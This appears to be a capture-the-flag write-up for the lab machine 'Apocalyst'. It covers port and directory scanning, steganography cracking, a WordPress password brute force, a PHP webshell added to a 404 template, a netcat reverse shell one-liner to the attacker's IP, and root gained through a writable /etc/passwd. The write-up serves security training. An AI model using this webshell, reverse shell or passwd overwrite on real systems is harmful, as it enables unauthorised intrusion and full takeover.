 # Apocalyst Writeup


## Enumeration

#### Port Scanning
```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-25 05:20 UTC
Stats: 0:00:02 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 21.07% done; ETC: 05:20 (0:00:07 remaining)
Warning: 10.129.220.250 giving up on port because retransmission cap hit (2).
Nmap scan report for 10.129.220.250
Host is up (0.064s latency).
Not shown: 933 closed ports, 65 filtered ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 12.25 seconds
```

#### Directory Fuzzing

Running _gobuster_ on the website didn't reveal anything of meaning, so I ran CEWL on the website, and ran that wordlist against it. 

```
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.220.250/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                words
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              -t
[+] Timeout:                 10s
===============================================================
2021/11/25 05:30:19 Starting gobuster in directory enumeration mode
===============================================================
/Revelation           (Status: 301) [Size: 321] [--> http://10.129.220.250/Revelation/]
/Book                 (Status: 301) [Size: 315] [--> http://10.129.220.250/Book/]      
/Daniel               (Status: 301) [Size: 317] [--> http://10.129.220.250/Daniel/]    
/the                  (Status: 301) [Size: 314] [--> http://10.129.220.250/the/]       
/end                  (Status: 301) [Size: 314] [--> http://10.129.220.250/end/]       
/that                 (Status: 301) [Size: 315] [--> http://10.129.220.250/that/]      
/and                  (Status: 301) [Size: 314] [--> http://10.129.220.250/and/]       
/entry                (Status: 301) [Size: 316] [--> http://10.129.220.250/entry/]     
/The                  (Status: 301) [Size: 314] [--> http://10.129.220.250/The/]       
/for                  (Status: 301) [Size: 314] [--> http://10.129.220.250/for/]       
<snipped>
```
The list of found directories was very long. There were only a few contents that returned a size bigger than 323, so I inspected each individually. Each one had the same picture on it. The source code for each was also all the same except for one. 

Once I downloaded that image, I ran _stegseek_ on the image, which detected and cracked the steganography and produced another wordlist. I then ran this wordlist on the login page, since it's a wordpress site. I ran `wpscan --url http://apocalyst.htb/ --passwords worlist.txt -U falaraki`. Falaraki is the author of the three blogposts on the site, so I assumed that that would be a valid username. 

This succeeded in finding me a valid login, which then gave me access to the admin panel. 

## Initial Access

For initial access, I went to Appearance -> Editor -> Error 404 Template, and added this line:

`if(isset($_REQUEST['cmd'])){ echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }`

This takes a GET parameter called **cmd**, and executes it, displaying the contents to the page. The only way to run it is to pass that parameter on a 404 page, for example, _http://apocalyst.htb/?p=6&cmd=ls_. 

Now that we had RCE, we just have to get a shell. Passing the reverse shell command in the URL bar didn't work too well for me, so I used _curl_. `curl "http://apocalyst.htb/?p=6&" --data-urlencode "cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.16.131 443 >/tmp/f"`

## Privelege Escalation

Next, I found I could read a file called _.secret_ in falaraki's home directory, even though I was www-data. The contents were a Base64 encoded password. With that, I logged in over SSH as falaraki for a more stable shell/TTY. 

Finally, I didn't find anything obvious, so I ran LinPEAS on it, which found that /etc/passwd was writeable by my user. I ran `openssl passwd <my_password>` on my host to create a correctly encrypted password that fits the /etc/passwd format, then pasted it into the root user's line in /etc/passwd. [Reference](https://infinitelogins.com/2021/02/24/linux-privilege-escalation-weak-file-permissions-writable-etc-passwd/)

Then, I su'd to root, using the password I just created. 
